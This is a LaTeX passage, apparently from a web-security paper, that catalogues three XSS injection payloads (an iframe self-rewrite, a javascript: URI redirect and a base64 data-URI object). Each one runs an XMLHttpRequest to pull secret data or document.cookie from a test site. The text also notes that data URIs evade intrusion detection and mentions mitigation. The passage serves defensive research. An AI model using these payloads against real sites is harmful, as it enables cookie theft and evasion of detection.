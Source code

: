     \begin{itemize}
      \item Injection using an Iframe pointing to a server generated 404 website / JavaScript URI creating a fresh and untreated DOM:\\ 
      \texttt{
	<iframe src="404" onload="frames[0].document.write(\%26quot;<script> \\
	r=new XMLHttpRequest();r.open('GET','http://xssme.html5sec.org/xssme2' \\
	,false); r.send(null);if(r.status==200) alert(\\
	r.responseText.substr(150,41));<\/script>\%26quot;)"></iframe>\\
      }\\ 
      The Iframe accesses itself by selecting its parent document property \textit{frames[0]}. It rewrites its own content to execute an \textit{XMLHttpRequest}, effectively getting hands on the secret data.
      \item Injection performing an XHR by redirecting to a JavaScript URI creating a new DOM: \\ 
      \texttt{
	<script>location.href='javascript:"<script>xhr=newXMLHttpRequest();xhr \\
	.open(\'GET\',\'http://xssme.html5sec.org/\',true); \\
	xhr.onreadystatechange= function()\%7bif(xhr.readyState==4\%26\%26 \\
	xhr.status==200)\%7b alert(xhr.responseText.match(/document.cookie= \\
	\%5c'([\^\%5c']\%2B)/)[1])\%7d\%7d;xhr.send();</scri"\%2B"pt>"'</script> \\
      }\\ 
      This attack can be mitigated by gaining control over the \textit{location} object accessors.  Recent versions of Firefox browser and other Gecko-based user agents make it possible nowadays.
      \item Injection creating an object using a Base64 encoded data URI performing an XMLHttpRequest: \\ 
      \texttt{
	<object data="data:text/html;base64, PHNjcmlwdD4gdmFyIHhociA9IG5ldyBY \\
	TUxIdHRwUmVxdWVzdCgpOyB4aHIub3BlbignR0VUJywgJ2h0dHA6Ly94c3NtZS5odG1sN \\
	XNlYy5vcmcveHNzbWUyJywgdHJ1ZSk7IHhoci5vbmxvYWQgPSBmdW5jdGlvbigpIHsgYW \\
	xlcnQoeG hyLnJlc3BvbnNlVGV4dC5tYXRjaCgvY29va2llID0gJyguKj8pJy8pWzFdKS \\
	B9OyB4aHIuc2VuZCgpOyA8L3NjcmlwdD4=">
      }\\
      \\
      An additional problem -- not in scope of our defense approach though - is the fact that Data URIs do not yield a request visible for a server, but still execute in the same domain context. An attacker can thereby easily bypass IDS/IPS systems to hide payload and evade detection.
    \end{itemize}

